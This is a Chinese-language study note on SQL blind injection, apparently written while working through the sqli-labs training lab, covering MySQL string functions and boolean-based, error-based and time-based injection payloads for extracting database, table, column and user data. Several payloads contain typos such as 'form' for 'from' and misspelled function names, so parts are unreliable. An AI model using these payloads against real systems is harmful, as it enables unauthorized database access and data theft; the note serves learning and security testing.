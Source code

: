 ```yaml
---
title: sql盲注
date: 2020-10-27 23:02:58
---
```


# SQL注入的基础

```
1.当在浏览器输入id值时，sql的语句会变成select .....from users where id=......LIMIT0,1
例：
http://127.0.0.1/sqli-labs/Less-1/?id=1会自动转化为select ....from users where id=’1’ LIMIT0,1
注意：（1）--+或#起注释作用，会将后面的所有语句删除掉
      （2）union的作用连接sql语句，若前一条语句为空，则显示后面语句，反之，则
           示前面一条语句
      （3）注入类型：id=’$id‘  id=$id   id=(‘$id’)   id=(“$id”)......
           闭合中的数字后面跟与类型无关的字符，将默认转换为前面的数字

```
# sql布尔盲注

## 基本使用函数

```
1. Mid（）函数
   此函数为截取字符串一部分，使用形式：Mid(column_name,start[,length])
2. substr()函数
   Substr()和substring()函数实现的功能是一样的，均为截取字符串。使用形式如下：
   string substring(string, start, length)
   string substr(string, start, length)
   注意：参数描述同mid()函数，string为第一个参数为要处理的字符串，start为开始位置，length为截取的长度。
3. Left()函数
   Left()得到字符串左部指定个数的字符，使用形式：Left ( string, n )
   string为要截取的字符串，n为长度
4. ORD（）函数，此函数为返回的第一个字符串的ascii码
   如：ORD(MID(DATABASE(),1,1))>114意为检测database（）第一位ascii码
   否大于114，也即是“r”
5. ascii()函数
   将某个字符转换为ascii码，与ORD函数相似
6. regexp 正则注入
   正则注入介绍：http://www.cnblogs.com/lcamry/articles/5717442.html
   用法介绍：select user() regexp '^[a-z]';
   Explain：正则表达式的用法，user()结果为 root，regexp 为匹配 root 的正则表达式。
   第二位可以用 select user() regexp '^ro'来进行。
7. like匹配注入
   和regexp正则注入类似，mysql注入的时候我们可以用like进行匹配
   用法：select user() like ‘ro%’
8. sleep()函数
   将程序挂起一段时间 ，n为n秒
9. if（）语句
    判断语句，如果第一个语句正确就执行第二个语句，如果错误就执行第三个语句
10. length(string)
    字符串的长度，string为要处理的字符串
11. database()是数据库，table()是数据表
12. CAST(str AS 目标数据类型）
            将目标str转化为目标数据类型
13. IFNULL(expr1,expr2)
            如果expr1不是null,IFNULL()返回expr1,否则它返回的是expr2，且0x20为空
```
## 做题思路

```
1. 先爆数据库，如：
   ?id=1’and length(database()) --+    看当前数据库的长度
   ?id=1’and left(database(),1) --+    看当前数据库第一个首字母
2. 再爆数据表，如：
   ?id=1’and ascii(substr((select table_name for information_schema.tables where tables_schema=database() LIMIT    0,1),1,1))=(<或>)113 --+
   以此类推，得出所有表
3. 再判断表中的列名是否有....列,如：
   ?Id=1’and 1=(select 1 from information_schema.columns where table_name=’users’and column_name regexp   ‘^username’LIMIT 0,1) --+
4. 看表中的列的内容，如；
   ?Id=1’and ORD(MID((select IFNULL(CAST(username AS CHAR),0x20）form security.users order by ip LIMIT       0,1),1,1))=68 --+
```
_


# 基于报错的sql盲注
```
1.函数
     Count----------------------用于计数
     Floor----------------------取得0或1，进行数据的重复
     Group by-------------------对相同数据进行分组（相同的一组）
     Rand()---------------------一个随机函数，但使用一个固定的随机数种子0后，成为固定的伪随机序列
2.报错类型
（1）平常报错注入
     ?id=1’union select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,floor(rand(0)*2))a form      information_schema.columns group by a--+
（2）利用double数值类型超出范围进行报错注入
     ?Id=1’union select (exp(~(select * from(select user())a))),2,3 --+
（3）利用bigint溢出进行报错注入
     ?Id=1’union select (!(select * from(select user())x) - ~0),2,3 --+
（4）xpath函数报错注入
     ?Id=1’and extractvalue(1,concat(0x7e,(select @@version),0x7e)) --+
     ?Id=1’and updatexml(1,concat(0x7e,(select @@verson),0x7e),1) --+
（5）利用数据重复性报错注入
     ?Id=1’union select 1,2,3 from (select NAME CONST(version(),1),NAME CONST(version(),1))x --+
```

# 基于时间的sql盲注
1.函数
     Sleep(N)-------------可以让语句运行N秒
     Benchmark()-----------一个mysql的内置函数，主要用来测试一些函数执行速度，且带有两个参数，一个为执行次数，一     个是执行函数或表达式 
2.延时注入类型
    （1）利用sleep()函数进行注入
     ?Id=1’and if(ascii(substr(database(),1,1))=115,1,sleep(5)) --+
（2）利用benchmark()进行延时注入
     ?Id=1’union select (if(subsring(current,1,1)=char(115),benchmark(50000,encode(‘MSG’,’by 5      seconds’)),null)),2,3 from(select database() as current) as tb1 --+